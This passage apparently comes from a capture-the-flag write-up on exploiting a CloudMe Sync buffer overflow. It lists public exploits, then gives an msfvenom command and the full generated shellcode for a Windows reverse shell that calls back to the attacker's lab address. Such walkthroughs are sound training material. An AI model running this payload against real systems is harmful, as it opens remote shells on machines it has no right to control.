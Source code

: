 ```text
CloudMe Sync 1.11.2 - Buffer Overflow + Egghunt                       | windows/remote/46218.py
CloudMe Sync 1.11.2 Buffer Overflow - WoW64 (DEP Bypass)              | windows_x86-64/remote/46250.py
CloudMe Sync < 1.11.0 - Buffer Overflow                               | windows/remote/44027.py
CloudMe Sync < 1.11.0 - Buffer Overflow (SEH) (DEP Bypass)            | windows_x86-64/remote/44784.py
---------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

I had to test multiple of the exploits before I found one that actually worked. I'm certain that it was more the fact that this was an easy box that was being hammered by many many people. Even after choosing the right exploit I had to reset the machine to get it to run. I also had to recompile some of the shellcode in the exploit with the provided `msfvenom` command. 

```text
┌──(zweilos㉿kali)-[~]
└─$ msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.220 LPORT=12345 -f c                                       
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of c file: 1386 bytes
unsigned char buf[] = 
"\xfc\xe8\x82\x00\x00\x00\x60\x89\xe5\x31\xc0\x64\x8b\x50\x30"
"\x8b\x52\x0c\x8b\x52\x14\x8b\x72\x28\x0f\xb7\x4a\x26\x31\xff"
"\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf\x0d\x01\xc7\xe2\xf2\x52"
"\x57\x8b\x52\x10\x8b\x4a\x3c\x8b\x4c\x11\x78\xe3\x48\x01\xd1"
"\x51\x8b\x59\x20\x01\xd3\x8b\x49\x18\xe3\x3a\x49\x8b\x34\x8b"
"\x01\xd6\x31\xff\xac\xc1\xcf\x0d\x01\xc7\x38\xe0\x75\xf6\x03"
"\x7d\xf8\x3b\x7d\x24\x75\xe4\x58\x8b\x58\x24\x01\xd3\x66\x8b"
"\x0c\x4b\x8b\x58\x1c\x01\xd3\x8b\x04\x8b\x01\xd0\x89\x44\x24"
"\x24\x5b\x5b\x61\x59\x5a\x51\xff\xe0\x5f\x5f\x5a\x8b\x12\xeb"
"\x8d\x5d\x68\x33\x32\x00\x00\x68\x77\x73\x32\x5f\x54\x68\x4c"
"\x77\x26\x07\xff\xd5\xb8\x90\x01\x00\x00\x29\xc4\x54\x50\x68"
"\x29\x80\x6b\x00\xff\xd5\x50\x50\x50\x50\x40\x50\x40\x50\x68"
"\xea\x0f\xdf\xe0\xff\xd5\x97\x6a\x05\x68\x0a\x0a\x0e\xdc\x68"
"\x02\x00\x30\x39\x89\xe6\x6a\x10\x56\x57\x68\x99\xa5\x74\x61"
"\xff\xd5\x85\xc0\x74\x0c\xff\x4e\x08\x75\xec\x68\xf0\xb5\xa2"
"\x56\xff\xd5\x68\x63\x6d\x64\x00\x89\xe3\x57\x57\x57\x31\xf6"
"\x6a\x12\x59\x56\xe2\xfd\x66\xc7\x44\x24\x3c\x01\x01\x8d\x44"
"\x24\x10\xc6\x00\x44\x54\x50\x56\x56\x56\x46\x56\x4e\x56\x56"
"\x53\x56\x68\x79\xcc\x3f\x86\xff\xd5\x89\xe0\x4e\x56\x46\xff"
"\x30\x68\x08\x87\x1d\x60\xff\xd5\xbb\xf0\xb5\xa2\x56\x68\xa6"
"\x95\xbd\x9d\xff\xd5\x3c\x06\x7c\x0a\x80\xfb\xe0\x75\x05\xbb"
"\x47\x13\x72\x6f\x6a\x00\x53\xff\xd5";
```

I found two options for creating a tunnel in order to run the local exploit against the remote machine. 
